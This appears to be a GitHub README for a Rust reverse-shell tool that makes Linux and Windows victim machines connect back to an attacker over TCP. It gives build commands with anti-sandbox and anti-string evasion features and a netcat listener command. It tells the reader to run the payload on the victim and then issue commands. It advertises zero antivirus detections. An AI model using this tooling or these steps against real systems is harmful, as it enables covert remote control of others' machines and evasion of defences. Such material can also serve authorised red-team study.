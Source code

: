 # RCO: TCP Reverse Shell

[![Custom badge](https://img.shields.io/endpoint?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkmanc%2Fremote_code_oxidation%2Fmaster%2F.custom_shields%2Ftcp_reverse_shell.json)](https://github.com/kmanc/remote_code_oxidation/tree/master/tcp_reverse_shell)

Linux target               |  Windows target
:-------------------------:|:-------------------------:
![gif](https://user-images.githubusercontent.com/14863147/151044738-72dbec76-73b1-47c5-831a-2e995673b559.gif)  |  ![gif](https://user-images.githubusercontent.com/14863147/151058869-8e5e9f6e-3f7b-4a98-ab65-2ac5017a4e76.gif)


## How it works

The reverse shells for both Linux and Windows work by establishing a [Transmission Control Protocol (TCP) session](https://www.scottklement.com/rpg/socktut/overview.html) from the victim machine to the attacking machine. Then a Terminal (Linux) or Command Prompt (Windows) process starts with its [standard input](https://en.wikipedia.org/wiki/Standard_streams#Standard_input_(stdin)), [standard output](https://en.wikipedia.org/wiki/Standard_streams#Standard_output_(stdout)), and [standard error](https://en.wikipedia.org/wiki/Standard_streams#Standard_error_(stderr)) all assigned to the TCP session. This means that input commands and output results are read from and written to (respectively) the TCP stream.


## Using it

1. [Not shown in GIF] Open [the config file](https://github.com/kmanc/remote_code_oxidation/blob/master/rco_config/src/lib.rs) 
and change the IP address and port to match the IP address of your attacking machine and the port you will use for a listener respectively
2. [Not shown in GIF] Compile the executable

    #### For Linux targets
    ```commandline
    cargo build -p tcp_reverse_shell [antisand][,][antistring]] --release
    ```

    #### For Windows targets
    ```commandline
    cargo build --target x86_64-pc-windows-gnu -p tcp_reverse_shell [--features [antisand][,][antistring]] --release
    ```
3. Start a netcat listener on the attacking machine on the same port you configured in step 1
    ```commandline
    nc -nlvp 4444
    ```
4. Execute the payload on the victim machine
5. Return to the listener and enter desired commands for the victim machine to run


## Detection rates

[Linux - 0 / 40](https://kleenscan.com/scan_result/797f4631dd2cbe2251507376b0d091e86478866b02b2a6718cc26c959a0139b9) | [Windows - 0 / 40](https://kleenscan.com/scan_result/64c9cd080360dc668126cd89aeff1ca40a44359dea9a075064f1ac1e0cc3b27f)
:-------------------------:|:-------------------------:
![image](https://user-images.githubusercontent.com/14863147/152621667-d230aa8d-24e6-435b-8ff9-bab59a346ddc.png) | ![image](https://user-images.githubusercontent.com/14863147/152621688-dae58eef-1688-4c8e-a5a9-7f6d21dcc1a0.png)

